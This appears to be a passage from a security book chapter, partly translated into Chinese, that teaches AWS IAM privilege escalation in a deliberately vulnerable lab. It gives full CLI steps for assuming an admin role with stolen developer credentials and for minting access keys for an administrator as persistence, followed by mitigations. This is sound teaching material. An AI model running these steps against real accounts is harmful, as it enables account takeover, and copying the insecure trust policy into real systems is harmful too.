## 第 5 章. 利用和保护配置错误的 AWS IAM 角色


Securing serverless applications involves securing every identity in the AWS account. This includes IAM users, roles, and other identities attackers could target to gain unauthorized access, escalate privileges, and establish persistence in the cloud account. In this chapter, you’ll work under the assumption that an attacker has gained access to leaked developer credentials, and examine how overlooked IAM misconfigurations within an AWS account can magnify the impact of a credential leak. You will explore how attackers exploit misconfigurations to escalate privileges, focusing on techniques such as abusing `AssumeRole` and leveraging AWS Lambda roles with excessive permissions.

By the end of this chapter, you will be better equipped to recognize IAM misconfigurations and assess Lambda execution roles for potential privilege escalation risks. In addition, you’ll have a better idea of what to look for when auditing accounts for persistence mechanisms that could allow attackers to maintain long-term access.

### Reviewing Technical Prerequisites

To follow along in this chapter, and in Chapters 6 and 7 as well, you will need the following:

* Two AWS accounts: one to set up and host the vulnerable-by-design serverless lab environment (the Serverless Lab account) and another for running simulated exploits (the Attacker account). Make sure to have both accounts ready and open in separate browser sessions (or incognito/private windows) to avoid session conflicts.
* A code editor installed on your local machine (such as `VS Code` or `Sublime Text`).

If you are using Windows, ensure you have a way to run macOS or Linux commands—for example, by using `WSL`, `Git Bash`, or a `VM` with a Linux distribution.

#### Note
To help you work through the exercises and simulations, a copy of the code and commands used in this chapter is available in a [GitHub gist (see `ch05.md`)](https://oreil.ly/0mSPU).

### Abusing AssumeRole for Privilege Escalation

`AssumeRole` allows a user, application, or service to temporarily take on the permissions of an IAM role by obtaining short-term credentials from AWS STS.^1 This provides secure access to resources without requiring long-term credentials.

In this section, you will explore how `AssumeRole`, combined with a misconfigured IAM role, can be used to escalate privileges within an AWS account. You will set up and configure an IAM role that serves as both a Lambda execution role and a developer-access role. This setup allows Lambda functions to run with the permissions they need while also letting developers assume the same role for debugging. Although this approach enables developers to troubleshoot using the same permissions as the Lambda functions, it also introduces a significant security risk, since attackers who compromise developer accounts could exploit `AssumeRole` to escalate privileges.

To walk through how attackers can abuse `AssumeRole` to escalate privileges, this section is divided into the following parts:

* “Setting Up an Overly Permissive IAM Role”
* “Setting Up IAM Groups and Users”
* “Deploying a Lambda Function with an Overly Permissive IAM Role”
* “Leveraging AssumeRole to Escalate Privileges”
* “Establishing Persistence with New IAM User Credentials”

After completing this section, you’ll be more capable of catching subtle misconfigurations and security risks that attackers could exploit to escalate privileges. At the same time, you’ll understand how privilege escalation can enable attackers to create backdoors and establish persistence in the cloud account.

#### Setting Up an Overly Permissive IAM Role

`AssumeRole` by itself is not inherently dangerous, but when combined with an overly permissive IAM role, it creates a pathway for privilege escalation inside the AWS account. In this section, you will create an IAM role with the `AdministratorAccess` managed policy attached, which will give anyone who assumes the role full administrative privileges. While this might seem uncommon, it can happen when development teams rush to deliver features and prioritize convenience over security best practices.

You can think of this as having a master keycard that opens every door in a corporate building. While it can be useful in emergencies, if that keycard falls into the wrong hands, it could grant unrestricted access to sensitive areas and allow someone to take full control of the facility.

#### Note
This section assumes you are using the Serverless Lab account, which will host the vulnerable-by-design serverless lab environment.

Let’s proceed with the creation of the overly permissive IAM role:

1. Open a new browser tab and sign in to the [AWS Management Console](https://oreil.ly/qe5es) by using your Serverless Lab account.
2. Type `iam` in the search bar and then select IAM from the list of matching services.
3. In the left navigation pane of the IAM Console Home page, select Roles under Access Management. Then click the Create Role button.

#### Note
This should guide you through the process of creating a role, which consists of three steps: selecting a trusted entity; adding permissions; and naming, reviewing, and creating the role.

4. On the “Select trusted entity” page, under “Select trusted entity,” select “Custom trust policy.” Then specify the following JSON policy in the editor:

```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "lambda.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": { "AWS": "*" },
      "Action": "sts:AssumeRole",
      "Condition": {
        "StringLike": {
          "aws:PrincipalArn": "arn:aws:iam::[ACCOUNT_ID]:user/*"
        }
      }
    }
  ]
}
```

This trust policy lets AWS Lambda and any IAM user from the specified AWS account assume the role. This configuration enables IAM users to directly assume the same role that Lambda functions use, which simplifies debugging but also creates a significant security risk if a user account is compromised. After adding the trust policy, click Next.

#### Caution
Make sure to replace `[ACCOUNT_ID]` with your actual AWS account ID. You can find this by clicking your account name in the upper-right corner of the AWS Management Console and locating the 12-digit account ID displayed along with the drop-down menu options.^2

5. On the “Add permissions” page, under “Permissions policies,” select the checkbox for the `AdministratorAccess` managed policy.^3 Then click Next.
6. On the “Name, review, and create” page, under “Role details,” type `lambda-assumable-role` in the “Role name” field. Then click “Create role.”

#### Note
If an “Overly permissive trust policy” pop-up appears, simply click Continue to proceed.

With this setup, any IAM user in the Serverless Lab account can escalate their privileges by assuming the role and inheriting all the permissions assigned to it. Since this role has the `AdministratorAccess` managed policy attached, anyone who assumes it effectively gains full control over the AWS account.

#### Warning


完成本章中的示例后，请务必清理创建的资源，以确保你不会无意中留下攻击者可能利用来危害你的 AWS 账户的任何东西。

#### 设置 IAM 组和用户

在本节中，你将创建两个 IAM 组：`Administrators` 和 `Developers`。`Administrators` 组将通过 `AdministratorAccess` 受管策略获得对 AWS 账户的完全管理控制，而 `Developers` 组将获得管理 AWS Lambda 资源以及在账户中承担 IAM 角色的权限。

你还将创建 IAM 用户并将它们分配到这些组中，以模拟现实世界的账户配置。这次，与其使用 AWS 管理控制台，你将使用 CloudShell 终端来设置和配置这些 IAM 实体。

#### Note

本节假定你正在使用 Serverless Lab 账户，该账户托管易受攻击的按设计构建的无服务器实验室环境。

让我们从 CloudShell 终端逐步创建 IAM 组和用户：

1. 在搜索栏中输入 `cloudshell`，然后从匹配的服务列表中选择 CloudShell。
2. 在 CloudShell 终端中，运行以下命令（`$` 符号之后）来创建一个 IAM 组并将 `AdministratorAccess` 策略附加到它：

```
aws iam create-group --group-name Administrators

aws iam attach-group-policy \
  --group-name Administrators \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

这样，任何添加到 `Administrators` 组的用户都会自动获得对 AWS 账户的完全管理权限。

3. 创建一个名为 `Administrator001` 的新 IAM 用户并将其添加到 `Administrators` 组：

```
ADMINISTRATOR="Administrator001"

aws iam create-user --user-name $ADMINISTRATOR

aws iam add-user-to-group \
  --user-name $ADMINISTRATOR \
  --group-name Administrators
```

#### Note

在实践中，你可能会创建映射到组织内实际用户的 IAM 用户账户。例如，名为 Jane Doe 的管理员可能会被分配一个类似 `jdoe` 或 `jane.doe` 的 IAM 用户名。这使得审计活动和管理访问权限变得更容易。

现在你已经创建了 `Administrators` 组并向其中添加了一个用户，让我们继续设置 `Developers` 组：

1. 在 CloudShell 终端中，运行以下命令来创建一个 `Developers` 组并将 `AWSLambda_FullAccess` 策略附加到它：

```
aws iam create-group --group-name Developers

aws iam attach-group-policy \
  --group-name Developers \
  --policy-arn arn:aws:iam::aws:policy/AWSLambda_FullAccess
```

这样，任何添加到 `Developers` 组的用户都会自动获得管理 Lambda 函数的完全权限。

2. 定义一个自定义 IAM 策略，允许开发人员承担同一 AWS 账户中的任何角色：

```
AWS_ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)

echo "{
  \"Version\": \"2012-10-17\",
  \"Statement\": [
    {
      \"Effect\": \"Allow\",
      \"Action\": \"sts:AssumeRole\",
      \"Resource\": \"arn:aws:iam::${AWS_ACCOUNT_ID}:role/*\"
    }
  ]
}" > custom-developers-policy.json
```

3. 将自定义 `AssumeRole` 策略作为内联策略附加到 `Developers` 组：

```
aws iam put-group-policy \
  --group-name Developers \
  --policy-name AssumeRolePolicy \
  --policy-document file://custom-developers-policy.json
```

4. 创建一个名为 `Developer001` 的新 IAM 用户并将其分配到 `Developers` 组：

```
DEVELOPER="Developer001"

aws iam create-user --user-name $DEVELOPER

aws iam add-user-to-group \
  --user-name $DEVELOPER \
  --group-name Developers
```

这次，IAM 用户被分配到一个权限集更受限制的组。

5. 为新用户生成访问密钥 ID 以及秘密访问密钥：

```
aws iam create-access-key --user-name $DEVELOPER
```

这应该返回以下 JSON 响应：

```
{
    "AccessKey": {
        "UserName": "Developer001",
        "AccessKeyId": "...",
        "Status": "Active",
        "SecretAccessKey": "...",
        "CreateDate": "..."
    }
}
```

#### Caution

请务必在继续下一步之前复制 `AccessKeyId` 和 `SecretAccessKey` 并将其安全地存储在你的本地机器上。

6. 运行以下命令通过创建登录配置文件为新用户（`Developer001`）启用 AWS 管理控制台访问权限：

```
USER_PASSWORD=$(openssl rand -base64 16)
USER_USERNAME=$DEVELOPER

aws iam create-login-profile \
  --user-name $USER_USERNAME \
  --password "$USER_PASSWORD" \
  --no-password-reset-required
```

以下响应应表明登录配置文件已成功创建，并且用户在首次登录时不需要重置密码：

```
{
    "LoginProfile": {
        "UserName": "Developer001",
        "CreateDate": "...",
        "PasswordResetRequired": false
    }
}
```

7. 为 AWS 管理控制台生成登录 URL 并在终端中打印新用户（`Developer001`）的登录凭据：

```
AWS_ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SIGN_IN_URL="https://${AWS_ACCOUNT_ID}.signin.aws.amazon.com/console"

echo -e "$SIGN_IN_URL\n\nU: $USER_USERNAME\nP: $USER_PASSWORD \n"
```

你将在下一节中使用这些登录凭据从 AWS 管理控制台部署 Lambda 函数。所有先决条件准备就绪后，让我们继续设置和配置一个具有配置不当的 IAM 角色的 Lambda 函数。

#### 部署具有过度宽松 IAM 角色的 Lambda 函数

在本节中，我们将逐步介绍设置新的 Lambda 函数并使用过度宽松的 IAM 角色配置它的过程。你将首先使用上一节生成的登录凭据登录 AWS 管理控制台。之后，你将设置一个 Lambda 函数并使用现有的 IAM 角色（`lambda-assumable-role`）对其进行配置，该角色具有过多的权限。最后，你将发布新的函数版本以模拟开发人员的生产发布流程。

这个过程就像给实习生分配一张万能门禁卡，以便他们在协助日常运营的同时更轻松地在各部门之间移动。然而，如果攻击者诱骗实习生分享或借出该卡，它可能被用来访问敏感区域并危害整个设施。

#### Note

本节假定你正在使用 Serverless Lab 账户，该账户将托管易受攻击的按设计构建的无服务器实验室环境。

现在，让我们模拟开发人员如何使用上一节生成的凭据来设置具有配置不当的 IAM 角色的新 Lambda 函数：

1. 在新的浏览器窗口中——最好使用不同的浏览器或访客/隐身会话——使用 `Developer001` 的凭据登录 AWS 管理控制台。

    

    ### Note

    请务必使用账户特定的登录 URL：`https://<account_id>.signin.aws.amazon.com/console`。

2. 在搜索栏中输入 `lambda`，然后从匹配的服务列表中选择 Lambda。

    ### Caution

    在本章中，所有示例都假定你的 AWS 区域设置为 `us-east-1`。请确保 AWS 控制台右上角选择的区域设置为 `N. Virginia (us-east-1)`。

3. 在左侧导航窗格中，选择 Functions，然后单击“Create function。”


4. 在“创建函数”页面，选择“从头开始创建”。在“基本信息”窗格中，在“函数名称”字段中指定 `lambda-0000`（图 5-2）。



对于运行时，选择 Python 3.13。^5 在“更改默认执行角色”部分下，在“执行角色”下，选择“使用现有角色”。从“现有角色”下拉列表中，选择 `lambda-assumable-role`。然后单击“创建函数”。

#### Note
你应该会收到一条确认消息，内容为 `Successfully created the function lambda-0010`。Lambda 函数创建完成后，下一步是更新其代码、运行测试并发布新版本。

5. 导航到“代码源”部分，然后用以下内容替换现有的 `lambda_function.py` 代码：

```
import json

def lambda_handler(event, context):
    output = "Learning Serverless Security!"

    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```

此基本 Lambda 函数返回一条静态消息。这只是生产环境中可能运行的任何真实无服务器函数代码的示例占位符。

在 `lambda_function.py` 中完成更新后，单击部署。

6. 要测试你创建的 Lambda 函数：

1. 单击测试。

2. 单击“创建新的测试事件”。对于事件名称，输入 `event-0000`，对于事件 JSON，输入 `{}`。

3. 单击保存按钮。

4. 单击调用。这会产生以下输出响应：

```
Status: Succeeded
Test Event Name: event-0000

Response:
{
  "statusCode": 200,
  "body": "\"Learning Serverless Security!\""
}
```

7. 现在，让我们创建一个新版本：

1. 导航到版本选项卡。

2. 单击“发布新版本”。

3. 单击发布。发布版本 1 后，它将列在版本选项卡下。

至此，你已完成了本章的初始有意易受攻击的无服务器实验室设置。在下一节中，你将模拟攻击者利用 `AssumeRole` 以及配置不当的 IAM 角色来提升权限。

#### Leveraging AssumeRole to Escalate Privileges

在本节中，你将研究 `AssumeRole` 如何被低权限 IAM 用户用来提升权限。更具体地说，你将模拟攻击者如何使用 `Developer001` 的凭据执行权限提升并承担附加了 `AdministratorAccess` 策略的 IAM 角色。

我们将从假设攻击者事先获得了 `Developer001` 的凭据开始——可能通过窃取凭据的有毒 NPM 包或从公开仓库中泄露的硬编码密钥，该密钥包含在提交历史中。你将使用这些凭据来模拟攻击：定位易受攻击的 Lambda，通过 `AssumeRole` 承担其执行角色，并验证临时凭据允许的操作。

#### Note
本节假设你使用攻击者账户来模拟攻击者尝试利用无服务器实验室环境中的资源。

让我们逐步了解攻击者如何利用 `AssumeRole` 来提升权限：

1. 打开一个新的浏览器标签页，并使用你的攻击者账户登录 [AWS 管理控制台](https://oreil.ly/qe5es)。

#### Tip
登录时打开不同的浏览器或隐身/私人窗口，以确保此会话不会干扰已登录的任何账户。

2. 使用 `Developer001` 的凭据配置 AWS CLI：

```
aws configure --profile target-dev-account
```

这将提示你输入 AWS 凭据、默认区域和默认输出格式：

```
AWS Access Key ID [None]: [Specify Developer001 AWS Access Key ID]
AWS Secret Access Key [None]: [Specify Developer001 AWS Secret Access Key]
Default region name [None]: [Press Enter]
Default output format [None]: [Press Enter]
```

3. 运行以下命令以验证所承担角色的凭据：

```
aws sts get-caller-identity --profile target-dev-account
```

这会返回以下响应：

```
{
    "UserId": "*********************",
    "Account": "************",
    "Arn": "arn:aws:iam::************:user/Developer001"
}
```

#### Note
`Account` 值应与你的无服务器实验室账户的账户 ID 匹配，即使你是从攻击者账户执行该命令。

4. 让我们检查你是否能够运行 `aws iam get-user`：

```
aws iam get-user --profile target-dev-account
```

以下错误消息应表明 IAM 用户无权调用 `iam:GetUser`：

```
An error occurred (AccessDenied) when calling the GetUser operation: User: arn:aws:iam::*****************:user/Developer001 is not authorized to perform: iam:GetUser on resource: user Developer001 because no identity-based policy allows the iam:GetUser action
```

5. 尝试检索账户中所有可用的 AWS 区域列表：^6

```
REGIONS=$(aws ec2 describe-regions \
    --query "Regions[].RegionName" \
    --profile target-dev-account \
    --output text)
```

如果用户无权调用 `ec2:DescribeRegions`，则应出现以下授权错误：

```
An error occurred (UnauthorizedOperation) when calling the DescribeRegions operation: You are not authorized to perform this operation. User: arn:aws:iam::*****************:user/Developer001 is not authorized to perform: ec2:DescribeRegions because no identity-based policy allows the ec2:DescribeRegions action
```

6. 或者，你也可以通过以下方式使用硬编码的 AWS 区域列表：

```
REGIONS=(ap-south-1 eu-north-1 eu-west-3 eu-west-2 eu-west-1 ap-northeast-3 ap-northeast-2 ap-northeast-1 ca-central-1 sa-east-1 ap-southeast-1 ap-southeast-2 eu-central-1 us-east-1 us-east-2 us-west-1 us-west-2)
```

```
for region in "${REGIONS[@]}"; do
  echo "[+] aws lambda list-functions --region $region"
  aws lambda list-functions --region $region --profile target-dev-account
  echo -e "\n"
done
```

以下响应表明在扫描的某个区域中存在 Lambda 函数：

```
...

{
    "Functions": [
        {
            "FunctionName": "lambda-0000",
            "FunctionArn": "...:function:lambda-0000",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::ACCOUNT_ID:role/lambda-assumable-role",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 268,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            ...
            "LoggingConfig": {
                "LogFormat": "Text",
                "LogGroup": "/aws/lambda/lambda-0000"
            }
        },
    ]
}

...
```

7. 运行以下命令以承担 Lambda 角色并为目标账户获取临时凭据：

```
ACCOUNT_ID=$(aws sts get-caller-identity \
    --profile target-dev-account \
    | jq -r ".Account")

ROLE_ARN="arn:aws:iam::$ACCOUNT_ID:role/lambda-assumable-role"

STS_OUTPUT=$(aws sts assume-role \
  --role-arn $ROLE_ARN \
  --role-session-name assume-session-000 \
  --profile target-dev-account)

echo $STS_OUTPUT
```

这会返回以下 JSON 输出：


```
{
    "Credentials": {
        "AccessKeyId": "...",
        "SecretAccessKey": "...",
        "SessionToken": "...",
        "Expiration": "..."
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "...",
        "Arn": "..."
    }
}
```

##### 8. 使用临时凭证创建一个名为 `assumed-lambda-role` 的配置文件：

```
KEY_ID=$(echo $STS_OUTPUT | \
    jq -r ".Credentials.AccessKeyId")

SECRET_ACCESS_KEY=$(echo $STS_OUTPUT | \
    jq -r ".Credentials.SecretAccessKey")

SESSION_TOKEN=$(echo $STS_OUTPUT | \
    jq -r ".Credentials.SessionToken")

aws configure set aws_access_key_id $KEY_ID \
    --profile assumed-lambda-role

aws configure set aws_secret_access_key $SECRET_ACCESS_KEY \
    --profile assumed-lambda-role

aws configure set aws_session_token $SESSION_TOKEN \
    --profile assumed-lambda-role
```

##### 9. 运行以下命令来测试所假设角色的凭证：

```
aws sts get-caller-identity --profile assumed-lambda-role
```

以下响应表示所假设角色会话已成功建立：

```
{
    "UserId": "...:assume-session-000",
    "Account": "...",
    "Arn": "...:assumed-role/lambda-assumable-role/assume-session-000"
}
```

##### 10. 列出附加到所假设角色的内联策略：

```
aws iam list-role-policies \
    --role-name lambda-assumable-role \
    --profile assumed-lambda-role
```

以下响应表示该角色未附加任何内联策略：

```
{
    "PolicyNames": []
}
```

##### 11. 列出附加到 IAM 角色的管理策略：

```
aws iam list-attached-role-policies \
    --role-name lambda-assumable-role \
    --profile assumed-lambda-role
```

这会返回以下 JSON 输出，显示 IAM 角色已附加 `AdministratorAccess` 管理策略：

```
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

请记住，使用 `assumed-lambda-role` AWS CLI 配置文件时，您实际上是以 `AdministratorAccess` 权限运行。此时，您应该对攻击者如何利用 `AssumeRole` 从被攻破的开发者账户将权限提升到更高权限的 IAM 角色有了一个很好的了解。

#### 通过新的 IAM 用户凭证建立持久化访问

在本节中，您将模拟攻击者通过为属于 `Administrators` 组的现有 IAM 用户生成新的凭证来建立长期访问。您将首先使用上一节中的 `assumed-lambda-role` 配置文件枚举 IAM 组并识别潜在的目标 IAM 用户。之后，您将为 `Administrators` 组中的用户创建新的长期凭证。最后，您将使用这些凭证配置 CLI 配置文件，以模拟攻击者保留对被攻破 AWS 账户的访问。

> Note
> 本节假设您使用的是 Attacker 账户来模拟攻击者对无服务器实验室环境中资源进行利用的尝试。

让我们继续进行模拟：

##### 1. 使用 `assumed-lambda-role` 配置文件，列出账户中当前存在的所有 IAM 组：

```
aws iam list-groups --profile assumed-lambda-role
```

这会返回以下 JSON 响应，显示账户配置了两个用户组：`Administrators` 和 `Developers`：

```
{
    "Groups": [
        {
            "Path": "/",
            "GroupName": "Administrators",
            "GroupId": "...",
            "Arn": "arn:aws:iam::...:group/Administrators",
            "CreateDate": "..."
        },
        {
            "Path": "/",
            "GroupName": "Developers",
            "GroupId": "...",
            "Arn": "arn:aws:iam::...:group/Developers",
            "CreateDate": "..."
        }
    ]
}
```

##### 2. 检索分配给 `Administrators` 组的成员列表：

```
aws iam get-group \
    --group-name Administrators \
    --profile assumed-lambda-role
```

您应该得到以下 JSON 响应，其中表明 `Administrator001` 是 `Administrators` 组的成员：

```
{
    "Users": [
        {
            "Path": "/",
            "UserName": "Administrator001",
            "UserId": "...",
            "Arn": "arn:aws:iam::...:user/Administrator001",
            "CreateDate": "..."
        }
    ],
    "Group": {
        "Path": "/",
        "GroupName": "Administrators",
        "GroupId": "...",
        "Arn": "arn:aws:iam::...:group/Administrators",
        "CreateDate": "..."
    }
}
```

##### 3. 运行以下命令为 IAM 用户 `Administrator001` 创建新的访问密钥：

```
aws iam create-access-key \
    --user-name Administrator001 \
    --profile assumed-lambda-role
```

这会返回以下 JSON 输出：

```
{
    "AccessKey": {
        "UserName": "Administrator001",
        "AccessKeyId": "...",
        "Status": "Active",
        "SecretAccessKey": "...",
        "CreateDate": "..."
    }
}
```

> Caution
> 在继续下一步之前，请务必复制 `AccessKeyId` 和 `SecretAccessKey` 并将其安全地存储在本地机器上。您可以暂时将值存储在代码编辑器中。

##### 4. 使用生成的长期访问密钥配置 `admin-001` 配置文件：

```
aws configure set aws_access_key_id KEY_ID --profile admin-001
aws configure set aws_secret_access_key SECRET_ACCESS_KEY --profile admin-001
```

> Caution
> 请务必将 `KEY_ID` 和 `SECRET_ACCESS_KEY` 替换为上一步中检索到的 `AccessKeyId` 和 `SecretAccessKey` 值。

##### 5. 确保 `admin-001` 配置文件已正确配置并通过身份验证：

```
aws sts get-caller-identity --profile admin-001
```

以下响应应确认 `admin-001` 配置文件已作为 `Administrator001` 正确通过身份验证：

```
{
    "UserId": "...",
    "Account": "...",
    "Arn": "arn:aws:iam::...:user/Administrator001"
}
```

从这里开始，攻击者可以利用新的凭证访问 Serverless Lab 账户中的各种资源，即使原始被攻破的凭证已被轮换或停用。

从防御安全角度来看，您应定期对 AWS 账户中的 IAM 主体、附加策略和信任关系进行彻底审计。最好深入挖掘，查找意外的用户、长期存在的访问密钥、过于宽松的角色信任策略，以及新添加的授予过度权限的内联或托管策略，这些都是持久化访问和权限提升尝试的常见指标。此外，您还应强制对 *所有* IAM 用户账户实施 MFA，并实施严格的最小权限访问控制，以降低未经授权访问以及攻击者权限提升的风险。

### 通过配置错误的 IAM 角色的 AWS Lambda 函数提升权限并建立持久化访问

现在，让我们探讨攻击者如何通过配置了过于宽松的 IAM 角色的 AWS Lambda 函数来提升权限并建立持久化访问。为了帮助您深入了解权限提升如何导致持久化访问，本节分为以下几个部分：


*   “缓解 AssumeRole 权限提升漏洞”

*   “重新配置 AWS CLI 并验证 AssumeRole 不再可用于提升权限”

*   “滥用函数过于宽松的执行角色以提升权限”

*   “使用新的 IAM 用户凭证建立持久性”

*   “通过后门 Lambda 版本建立持久性”

完成本节后，您将更善于识别危险信号、检测可疑活动，并评估 Lambda 函数及其 IAM 角色是否存在潜在的配置错误和安全风险。

#### 缓解 AssumeRole 权限提升漏洞

本章前面，您探讨了攻击者如何通过利用 `AssumeRole` 权限来提升权限。在本节中，您将模拟一名安全工程师缓解 `AssumeRole` 权限提升漏洞。您将首先从 `Developers` 组中移除 `AssumeRole` 权限，然后继续更新 `lambda-assumable-role` IAM 角色的信任策略。

#### Note

本节假设您使用的是 Serverless Lab 根账户来配置 Serverless Lab AWS 账户中的 IAM 权限和信任关系。虽然不建议从根账户进行 IAM 更改，但在本节中使用它是为了简化实验环境设置。

让我们开始模拟：

1. 在搜索栏中输入 `iam`，然后从匹配的服务列表中选择 IAM。
2. 在 IAM 控制台主页的左侧导航窗格中，在访问管理下选择“用户组”。
3. 从“用户组”列表中，单击 `Developers`。
4. 在权限选项卡上，选择 `AssumeRolePolicy`，然后单击删除。

#### Note

按照提示操作——例如在文本输入字段中输入内联策略名称——以确认删除。

接下来，让我们更新信任策略，以便 IAM 用户不再能够承担 `assumable-role` 角色：

1. 在左侧导航窗格中，在访问管理下选择角色。
2. 在搜索框中输入 `assumable` 以定位 `assumable-role` 角色。单击 `lambda-assumable-role`。
3. 在“信任关系”选项卡上，单击“编辑信任策略”。
4. 在“编辑信任策略”页面上，在文本区域中指定以下策略：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Service": "lambda.amazonaws.com"
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

单击“更新策略”。`Trust policy updated` 通知会出现，表明信任策略已成功更新。

您现在已成功缓解了 `AssumeRole` 权限提升漏洞。请记住，缓解漏洞通常涉及权衡，如果未仔细规划，对 IAM 角色施加过于严格的权限有时会破坏正常操作。始终验证 IAM 修改是否保留了授权用户和服务所需的访问权限和功能。

#### 重新配置 AWS CLI 并验证 AssumeRole 不再可用于提升权限

在本节中，您将删除攻击者账户 CloudShell 终端中保存的所有 AWS CLI 配置文件和凭证，然后使用 `Developer001` IAM 用户的凭证重新配置 CLI。然后您将确认，使用 `Developer001` 的被盗凭证，攻击者无法再使用 `AssumeRole` 执行权限提升。

#### Note

本节假设您使用攻击者账户来模拟攻击者对无服务器实验环境中资源的利用尝试。

让我们逐步介绍重新配置 `Developer001` 的 AWS CLI 配置文件并确认攻击者无法使用 `AssumeRole` 提升权限的步骤：

1. 运行以下命令以删除 CloudShell 终端环境中保存的所有 AWS CLI 配置文件和凭证：^(7)

```
mv ~/.aws/config ~/.aws/config.bak
mv ~/.aws/credentials ~/.aws/credentials.bak
```

2. 确认未配置有效身份：

```
aws sts get-caller-identity --profile target-dev-account
```

您应该收到以下错误消息，确认当前未为指定配置文件配置有效的 AWS 凭证：

```
The config profile (target-dev-account) could not be found
```

3. 使用 `Developer001` 的访问凭证重新配置您的 AWS CLI：

```
aws configure --profile target-dev-account
```

#### Tip

请确保使用在 “设置 IAM 组和用户” 中运行 `aws iam create-access-key --user-name $DEVELOPER` 后生成的访问凭证。

4. 确认 AWS CLI 当前以哪个 IAM 身份进行身份验证：

```
aws sts get-caller-identity --profile target-dev-account
```

以下 JSON 响应表明 CLI 已成功使用与 `Developer001` 关联的访问密钥：

```
{
    "UserId": "*********************",
    "Account": "************",
    "Arn": "arn:aws:iam::************:user/Developer001"
}
```

5. 将 `[ACCOUNT_ID]` 替换为 Serverless Lab 账户的账户 ID，然后运行以下命令以承担 `lambda-assumable-role` IAM 角色：

```
aws sts assume-role \
  --role-arn arn:aws:iam::[ACCOUNT_ID]:role/lambda-assumable-role \
  --role-session-name assume-session-001 \
  --profile target-dev-account
```

您应该收到以下响应，表明 `Developer001` 无权承担 `lambda-assumable-role` IAM 角色：

```
